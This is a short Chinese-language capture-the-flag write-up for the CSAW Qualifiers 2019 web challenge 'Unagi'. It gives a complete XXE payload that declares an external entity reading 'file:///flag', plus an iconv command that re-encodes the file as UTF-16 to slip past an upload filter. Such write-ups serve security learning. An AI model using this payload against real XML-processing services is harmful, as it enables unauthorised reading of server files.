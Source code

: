 ```yaml
---
[CSAWQual 2019]Web_Unagi

---
```


- xxe注入转化为utf16绕过

- Xxe 与文件上传

先构造一个

```xml
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

然后通过系统命令	

```bash
iconv -f utf-8 -t utf-16 2.xml>1.xml
```

转化为utf16并写入1.xml

最后上传1.xml文件即可

